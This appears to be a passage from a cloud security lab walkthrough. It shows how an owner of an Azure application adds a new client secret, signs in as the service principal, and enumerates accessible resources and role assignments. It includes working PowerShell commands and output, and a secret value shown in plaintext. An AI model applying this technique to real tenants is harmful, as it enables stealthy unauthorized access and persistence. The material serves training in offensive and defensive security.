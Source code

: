 Service principals have versatile authentication options, allowing the use of either secrets or certificates. Users holding the application administrator role or service principal owners possess the ability to introduce new secrets (application passwords) or certificates. In this scenario, it is beneficial since adding new secrets does not disrupt functionality. Additionally, service principals, unlike typical users, are excluded from multi-factor authentication (MFA) and undergo less monitoring and scrutiny.

We can use the Microsoft Graph cmdlets to add a new secret to the service principal
```
#$userId = (Get-MgUser -Filter "userPrincipalName eq 'Daiki.Hiroko@megabigtech.com'").Id
$appId = (Get-MgUserOwnedObject -UserId "01cefafa-a156-46ec-9b0c-ce6b625144a2").Id  

$passwordCred = @{
   displayName = 'Created in PowerShell'
}

# Create a new password credential
$newPassword = Add-MgApplicationPassword -applicationId $appId -PasswordCredential $passwordCred

# print the password
$newPassword.SecretText
```
It worked
```
└─PS> $newPassword.SecretText
<REDACTED>
```
Authenticate as the service principal. Set the app secret value below with the `secretText` value from the command above.
```
$appsecret = ConvertTo-SecureString "sdM8Q~j3GoOfi4qska.OOmyDwACV9Dqajn0FEb7-" -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential('3626d80c-9f3b-48f9-a445-65a1ad9129af',$appsecret) 

Connect-AzAccount -ServicePrincipal -Credential $cred -Tenant '2590ccef-687d-493b-ae8d-441cbab63a72' 
```

After getting a new PowerShell Az session we can start the process of enumeration.First step to check the resources that are accessible to the service principal and listing any RBAC roles that may be assigned to them.
```
└─PS> Get-AzResource
```
```
└─PS> Get-AzRoleAssignment

RoleAssignmentName : eb32db72-fea7-40be-b2b0-2354dceac4e6
RoleAssignmentId   : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourcegroups/mbt-rg-1/providers/Microsoft.Storage/storageAccounts/storageqaenv/blobServices/default/containers/general-purpose/providers/Microsoft.Authorization
                     /roleAssignments/eb32db72-fea7-40be-b2b0-2354dceac4e6
Scope              : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourcegroups/mbt-rg-1/providers/Microsoft.Storage/storageAccounts/storageqaenv/blobServices/default/containers/general-purpose
DisplayName        : daiki-appspn
SignInName         : 
RoleDefinitionName : Reader
RoleDefinitionId   : acdd72a7-3385-48ef-bd42-f606fba81ae7
ObjectId           : f92ac1b8-937e-4cb1-8555-572c57e00331
ObjectType         : ServicePrincipal
CanDelegate        : False
Description        : 
ConditionVersion   : 
Condition          : 
```